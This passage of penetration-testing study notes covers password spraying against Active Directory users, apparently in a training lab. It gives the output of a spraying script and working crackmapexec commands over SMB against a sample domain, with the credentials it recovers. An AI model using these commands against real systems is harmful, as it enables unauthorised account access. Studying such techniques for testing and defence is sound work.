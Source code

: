 ```
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```
+ The password spraying was successful, providing us two valid sets of credentials with the password `_Nexus123!`_

#### Password Spraying Using SMB
The second kind of password spraying attack against AD users leverages SMB
+ This is one of the traditional approaches of password attacks in AD and comes with some drawbacks
+ For example, for every authentication attempt, a full SMB connection has to be set up and then terminated
+ As a result, this kind of password attack is very noisy due to the generated network traffic
+ It is also quite slow in comparison to other techniques

We can use **crackmapexec** on Kali to perform this kind of password spraying
+ We'll select **smb** as protocol and enter the IP address of any domain joined system such as `CLIENT75` (192.168.50.75)
+ Then, we can provide a list or single users and passwords to **-u** and **-p** 
+ In addition, we will enter the domain name for **-d** and provide the option **--continue-on-success** to avoid stopping at the first valid credential
+ For the purposes of this example, we'll create a text file named **users.txt** containing a subset of the domain usernames _dave_, _jen_, and _pete_ to spray the password _Nexus123!_ against
```
crackmapexec smb <IP> -u <USER_LIST> -p <PASSWORD> -d <DOMAIN> --continue-on-success
```
+ Example:
```
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```
+ Above shows that crackmapexec identified the same two valid sets of credentials as **Spray-Passwords.ps1** did previously
+ By prepending the attempted credentials with a plus or minus, crackmapexec indicates whether or not each is valid

We should note that crackmapexec doesn't examine the password policy of the domain before starting the password spraying
+ As a result, we should be cautious about locking out user accounts with this method
